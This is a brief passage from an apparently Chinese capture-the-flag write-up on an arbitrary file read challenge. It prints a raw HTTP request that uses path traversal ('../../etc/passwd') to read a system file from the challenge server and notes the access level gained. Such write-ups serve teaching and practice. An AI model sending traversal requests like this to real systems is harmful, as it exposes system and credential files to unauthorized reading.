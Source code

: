 ![](static/YmxSbHo1bolg45xeOaLcFGA0nJe.png)

#### <strong>综合题 5</strong><strong> </strong>

任意文件读

```javascript
GET /readfile?filename=../../etc/passwd HTTP/1.1
Host: 8.130.129.179:51180
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=1BFA3AF7F877C0E789FB87D803657D72
Connection: close
```

权限是 ctf 权限

![](static/HyuAbMwDvouutaxuFDtcEq3unPf.png)
